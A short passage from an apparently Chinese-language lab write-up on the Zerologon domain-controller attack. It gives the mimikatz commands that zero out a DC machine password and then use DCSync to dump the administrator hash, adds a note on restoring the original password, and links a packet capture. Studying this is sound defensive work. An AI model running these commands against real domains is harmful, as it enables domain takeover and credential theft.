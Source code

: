 

注意，执行`reinstall_original_pw.py`要确保密码已被置空，用空密码算出来的SessionKey加密NTLM Hash，DC用同样的SessionKey解码，才能赋值正确。

![image-20201220161905098](/assets/img/image-20201220161905098.png)

### 2. mimikatz

```
lsadump::zerologon /target:ring2.com /account:ringdc-pc$ /exploit
lsadump::dcsync /authuser:ringdc-pc$ /authpassword:"" /user:administrator /csv
```

最新版mimikatz对流量加密了，看不到各函数调用 [zerologon_mimikatz_encrypt.pcapng](https://github.com/RingLcy/BlogStorage/tree/main/traffic/zerologon_mimikatz_encrypt.pcapng) 

![image-20201220165811271](/assets/img/image-20201220165811271.png)
